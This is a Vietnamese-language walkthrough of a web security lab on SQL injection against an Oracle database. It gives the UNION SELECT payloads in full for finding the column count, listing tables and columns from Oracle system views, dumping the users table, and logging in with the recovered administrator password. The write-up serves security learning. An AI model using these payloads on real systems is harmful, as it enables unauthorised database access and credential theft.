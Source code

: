 # WEB

*Lab: SQL injection attack, listing the database contents on Oracle*

## Tóm tắt

Khai thác lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm, ta có thể sử dụng UNION SELECT để truy vấn dữ liệu từ các bảng hệ thống Oracle (all_tables, all_tab_columns) và từ bảng chứa tài khoản người dùng. Mục tiêu cuối cùng: lấy mật khẩu của user administrator và đăng nhập.
## Khai thác

1. Truy cập trang web và chọn một danh mục, ở đây chọn “Gifts”.

![alt text](images/image.png)

2. Chặn request bằng Burp Suite, gửi sang Repeater. Payload injection nằm ở parameter `category`.

![alt text](images/image-1.png)
3. Xác định số lượng cột trả về bằng cách thử ` 'UNION SELECT NULL,NULL from dual -- ` cho đến khi thành công (không báo lỗi).  Ở đây khi có 2 NULL thì server báo 200 OK =>có 2 cột
![alt text](images/image-2.png)
4. Xác định cột chứa text.
- Dùng lệnh 'UNION SELECT 'abc','def' from dual-- để xác định cột hiển thị text.
![alt text](images/image-3.png) 
5. Liệt kê tên các bảng trong database 
- Sử dụng bảng hệ thống chứa danh sách bảng all_tables.
- Câu lệnh 'UNION SELECT table_name,NULL FROM all_tables-- để trích xuất tên các bảng.
- Tìm bảng có tên người dùng. Ở đây là bảng USERS_VYZLCA.
![alt text](images/image-4.png)
6. Liệt kê các tên cột của bảng USERS_VYZLCA.
- Dùng lệnh'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_VYZLCA'--
![alt text](images/image-5.png)
- Các cột password, user lần lượt là: PASSWORD_IXFWDV, USERNAME_BVHOMV.
7. Trích xuất dữ liệu đăng nhập
- Dùng lệnh 'UNION SELECT USERNAME_BVHOMV,PASSWORD_IXFWDV FROM USERS_VYZLCA--
![alt text](images/image-6.png)
- Tìm được tài khoản admin: administrator: 91mr29bo8a33k4iv9yq1
8. Đăng nhập bằng tài khoản admin để hoàn thành lab
![alt text](images/image-7.png)
